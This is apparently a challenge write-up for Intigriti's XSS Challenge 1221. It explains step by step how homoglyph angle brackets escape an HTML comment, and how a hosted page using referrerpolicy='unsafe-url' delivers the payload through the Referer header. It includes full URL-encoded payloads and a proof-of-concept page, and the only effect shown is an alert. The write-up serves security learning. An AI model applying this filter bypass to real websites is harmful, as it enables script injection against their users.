 ```yaml
---
title:      Intigriti - XSS Challenge 1221
author:     Bruno Halltari
date:       2021-12-27 19:11:00
summary:    Homoglyph XSS
categories: Intigriti web exploitation
tags:
 - Intigriti
 - Web Exploitation

---
```


## Let's start

The challenge comes with an input field and a parameter called " Stay open " to avoid repeating an animation, first of all I tried to insert a simple payload like ```<script>alert(document.domain)</script>``` to understand where the starting point was.

```html
<h4 id="punchline">Result:  alert(document.domain)
<!-- Referer: https://challenge-1221.intigriti.io/challenge/index.php?payload= -->
</h4>
```
From the source, you can see two pieces of information, first of all the content is reflected inside an html comment.
This is really important because with a simple payload like ```--><script>alert(document.domain)</script>``` we can escape from the comment and execute our xss payload, 
but there is a problem,  you can also see thar the characters ```<``` and ```>``` are encoded.

At this point I tried to think of various bypasses until I came up with an idea based on a previously played ctf.

## Homoglyph characters
Homoglyph are character that look alike but are not the same, so it's possible to use characters that looks the same but are interpreted 
differently from the server. 
this is really important because we can use this type of characters to bypass the control on ```<``` and ```>```
Here you can see some examples: https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt

## Final Payload

To build the final payload I simply used Homoglyph characters regarding the ```<``` and the ```>```, in this way I was able to close the html comment and escape in order to execute XSS.
To be sure, I url encoded the whole payload:

```
https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5
```

Just to be clear, clicking the link will not execute the xss, but you will need to enter ```--﹥﹤script﹥alert(document.domain)﹤/script﹥``` inside the input field ( we will see after how to not make this case a self-xss ), and the pop up will appear.
In this way i was able to close the html comment in order to get out and execute my payload, as you can see from the source code:
```html
<h4 id="punchline">Result: xss
<!-- Referer: https://painreigns.github.io/xmasxss.html?payload=--><script>alert(document.domain)</script>
"-->"
</h4>
```


## Final Poc

Now that we know how to execute the xss it's not over, in fact the scenario described is that of a Self-XSS, which is no good.
To avoid this problem, I wrote this simple POC:

```html
<html>
  <body>
    <a href="https://challenge-1221.intigriti.io/challenge/index.php?payload=xss" referrerpolicy="unsafe-url">Click here </a>
  </body>
</html>
```

The only interesting part is the ```referrerpolicy="unsafe-url"``` parameter that is needed to send the origin, path, and query string when performing any request, regardless of security.
This means that this policy will leak potentially-private information (in this case our payload) from HTTPS resource URLs to insecure origins, without this parameter it would not be possible to populate the referrer header from an external origin and execute XSS.


The last step is to host our code and insert the payload described above in the url:

```https://mydomain/xmasxss.html?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5```